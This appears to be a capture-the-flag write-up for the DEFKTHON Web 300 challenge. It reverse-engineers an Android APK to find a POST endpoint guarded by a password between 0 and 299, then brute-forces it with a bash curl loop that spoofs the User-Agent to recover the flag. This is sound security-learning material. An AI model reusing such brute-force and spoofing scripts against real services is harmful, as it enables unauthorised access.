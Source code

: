 # DEFKTHON CTF: Web 300

**Description:**

> [we love it!](web300.apk)

## Write-up

We’re given an Android application package file, [`web300.apk`](web300.apk). `*.apk` files are essentially zip files with a different extension. If you rename it to `web300.apk.zip` and extract it, you’ll see it contains a `classes.dex` file. `*.dex` files are compiled Android application code files, containing bytecode for the Dalvik Virtual Machine (the workhorse powering the Android system).

Let’s convert the bytecode in the `classes.dex` file back to a `*.jar` file [using `dex2jar`](https://code.google.com/p/dex2jar/):

```bash
$ d2j-dex2jar web300.apk
dex2jar web300.apk -> web300-dex2jar.jar
```

Now, `*.jar` files are essentially zip files too. We can just rename `web300-dex2jar.jar` to `web300-dex2jar.jar.zip` and unzip it to unpack its contents. Alternatively, this command has the same result:

```bash
$ jar xf web300-dex2jar.jar
```

In this case, the resulting source files aren’t easily readable, so let’s use a decompiler. Open `web300-dex2jar.jar` in [JD-GUI](http://jd.benow.ca/). Now we can view all the source code, or go to _File_ → _Save All Sources_ to save the sources so we can view them in our preferred text editor.

The `com.example.defkthonapp/MainActivity` class looks interesting:

```java
private Runnable Check = new Runnable()
{
  public void run()
  {
    TelephonyManager localTelephonyManager = (TelephonyManager)MainActivity.this.getSystemService("phone");
    String str1 = localTelephonyManager.getDeviceId();
    String str2 = localTelephonyManager.getSimSerialNumber();
    int i = new Random().nextInt(300);
    ((WebView)MainActivity.this.findViewById(2131230723)).postUrl("http://challenges.defconkerala.com/web/300/update.php", EncodingUtils.getBytes("pwd=" + Integer.toString(i) + "&imei=" + str1 + "&div=" + str2, "BASE64"));
  }
};
private EditText paswd;
```

So, the app performs a POST request to `http://challenges.defconkerala.com/web/300/update.php` with `pwd=$password&imei=$deviceID&div=$simSerialNumber` as POST data. The `$deviceID` and `$simSerialNumber` never change for the same device, only the `$password` does — and it is a random integer from 0 (inclusive) to 300 (exclusive).

Testing reveals that the `$deviceID` and `$simSerialNumber` aren’t validated in any way on the server, so we can just use bogus values for them. The `User-Agent` request header seems to be checked though — if it doesn’t contain `Android`, the following response is sent:

```
We love android !!
```

Setting `_Android` as the `User-Agent` header seems to work.

Let’s brute-force the password and see what happens. I wrote a quick shell script for this:

```bash
#!/usr/bin/env bash

deviceID='1337';
simSerialNumber='1337';
user_agent='_Android';

url='http://challenges.defconkerala.com/web/300/update.php';

for password in {0..299}; do
  data="pwd=${password}&imei=${deviceID}&div=${simSerialNumber}";
  curl -s --user-agent "${user_agent}" --data "${data}" "${url}" | grep 'Flag';
done;
```

Let’s run it:

```bash
$ ./web300.sh
Flag is: w00tkitk@t
```

The flag is `w00tkitk@t`.

## Other write-ups and resources

* <http://www.0xdeffbeef.com/2014/03/defkthon-ctf-2014-we-love-it-web-300.html>
